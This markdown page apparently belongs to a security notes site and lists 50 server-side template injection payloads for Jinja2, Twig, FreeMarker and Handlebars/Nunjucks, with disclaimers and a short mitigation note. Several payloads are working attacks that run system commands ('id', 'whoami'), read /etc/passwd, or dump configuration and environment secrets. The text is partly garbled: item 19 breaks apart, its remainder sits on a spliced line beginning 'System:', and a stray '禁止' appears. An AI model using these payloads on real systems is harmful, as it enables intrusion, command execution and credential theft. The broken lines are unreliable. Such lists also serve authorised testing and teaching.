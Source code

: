 ```yaml
---
title: "Server-side template injection payload"
tags:
  - SSTI_injection
---
```


Many template engine (e.g., Jinja2, Twig, FreeMarker) exists different context (e.g., Flask, Symfony).

Server-Side Template Injection (SSTI) is a vulnerability where attackers inject malicious code into template engines (e.g., Jinja2, Twig, FreeMarker, Handlebars) used by web applications to dynamically generate content. By injecting template expressions, attackers can execute arbitrary code, access server-side data, or manipulate application logic. Below is a list of 50 example SSTI payloads tailored to various template engines. These payloads are designed to test for vulnerabilities in controlled environments.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### SSTI Payload Characteristics
- Payloads target template engine syntax, which varies by framework (e.g., {% raw %} `{{ }}` for Jinja2, `{% %}` {% endraw %} for Twig, `${}` for FreeMarker).
- Common goals include executing code, accessing sensitive data (e.g., `request`, `config`), or testing for template rendering.
- Payloads often exploit template engine features like variable access, loops, or function calls.

The payloads below cover popular template engines and include generic tests, specific engine syntax, and advanced exploitation techniques. They assume user input is directly embedded into a template (e.g., `Hello {{user_input}}`). Adapt payloads based on the suspected template engine.

### SSTI Payloads
#### Generic Detection Payloads
These test for SSTI by attempting simple operations to detect template execution.

{% raw %}
1. `{{7*7}}` - Tests if `49` is rendered (Jinja2, Handlebars, etc.).
2. `${7*7}` - Tests for FreeMarker or Velocity template engines.
3. `<% 7*7 %>` - Tests for ERB (Ruby) or JSP template engines.
4. `{{1+1}}` - Tests basic arithmetic rendering.
5. `${{1+1}}` - Tests for Nunjucks or Handlebars.
6. `{% debug %}` - Tests for Twig debug output.
7. `{{ config }}` - Attempts to dump configuration (Jinja2, Flask).
8. `{{ request }}` - Accesses request object (Jinja2, Flask).
9. `<% out.println(7*7) %>` - Tests JSP execution.
10. `{{ ''.__class__ }}` - Tests for Python class access (Jinja2).
{% endraw %}

#### Jinja2/Flask (Python) Payloads
Jinja2 is common in Flask applications, using {% raw %} `{{ }}` {% endraw %} for expressions.

{% raw %}
11. `{{ ''.__class__.__mro__ }}` - Dumps method resolution order.
12. `{{ self.__init__.__globals__ }}` - Accesses global namespace.
13. `{{ ''.__class__.__base__ }}` - Accesses base class.
14. `{{ config.items() }}` - Dumps Flask configuration.
15. `{{ get_flashed_messages.__globals__ }}` - Accesses Flask globals.
16. `{{ ''.__class__.__subclasses__() }}` - Lists all subclasses.
17. `{{ ''.__class__.__base__.__subclasses__()[59].__init__.__func__.__globals__['sys'].modules['os'].system('id') }}` - Executes system command (Linux).
18. `{{ request.application.__self__.__dict__ }}` - Dumps application context.
19. `{{ url_for.__globals__['os'].p ո
{% endraw %}

System: .popen('whoami') }}` - Attempts to execute `whoami` command (Jinja2).
{% raw %}
20. `{{ ''.join(os.listdir('/')) }}` - Lists root directory contents.
{% endraw %}

#### Twig (PHP) Payloads
Twig is used in PHP frameworks like Symfony, using {% raw %} `{{ }}` {% endraw %} and {% raw %} `{% %}` {% endraw %} 禁止

{% raw %}
21. `{{ 1+1 }}` - Tests arithmetic evaluation.
22. `{{ app.request }}` - Accesses request object.
23. `{% include '/etc/passwd' %}` - Attempts to read sensitive file.
24. `{{ _context }}` - Dumps template context.
25. `{{ dump(app) }}` - Dumps application object.
26. `{% set foo = system('id') %}{{ foo }}` - Attempts command execution.
27. `{{ constant('PHP_OS') }}` - Retrieves OS information.
28. `{% debug %}` - Outputs debug information.
29. `{{ app.session.user }}` - Accesses session user data.
30. `{% filter phpinfo %}1{% endfilter %}` - Attempts to display PHP info.
{% endraw %}

#### FreeMarker (Java) Payloads
FreeMarker is used in Java applications, using `${}` for expressions.

{% raw %}
31. `${7*7}` - Tests arithmetic evaluation.
32. `${.api}` - Dumps FreeMarker API context.
33. `${.dataModel}` - Accesses data model.
34. `${request}` - Accesses HTTP request object.
35. `${.builtIns?keys}` - Lists built-in functions.
36. `${.getClass().forName("java.lang.Runtime").getMethod("exec","java.lang.String").invoke(null,"whoami")}` - Attempts command execution.
37. `${user}` - Accesses user object.
38. `${.vars}` - Dumps all variables in scope.
39. `${System.getProperty("os.name")}` - Retrieves OS name.
40. `${.main?string}` - Dumps main template data.
{% endraw %}

#### Handlebars/Nunjucks (JavaScript) Payloads
Used in Node.js applications, using {% raw %} `{{ }}` {% endraw %} or {% raw %} `{{{ }}}`{% endraw %} .

{% raw %}
41. `{{ 7 * 7 }}` - Tests arithmetic evaluation.
42. `{{ global.process }}` - Accesses Node.js process object.
43. `{{{ global }}}` - Dumps global scope.
44. `{{ require('os').userInfo() }}` - Attempts to retrieve user info.
45. `{{ process.env }}` - Dumps environment variables.
46. `{{ __dirname }}` - Retrieves current directory.
47. `{{{ this }}}` - Dumps current context.
48. `{{ require('fs').readdirSync('.') }}` - Lists current directory files.
49. `{{ global.process.argv }}` - Accesses command-line arguments.
50. `{{ Object.keys(global) \}\}` - Lists global object keys.
{% endraw %}

### Notes
- **Template Engine Detection**: Start with generic payloads (e.g., {% raw %} `{{7*7}}`{% endraw %} ) to identify the engine, then use engine-specific payloads.
- **Context-Specific**: Payloads must match the template engine’s syntax and available objects (e.g., `request` in Flask, `app` in Twig).
- **Encoding**: For web inputs, payloads may need URL encoding (e.g., `{{` becomes `%7B%7B`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize user inputs, use safe template rendering (e.g., auto-escaping), and avoid embedding raw user input in templates.

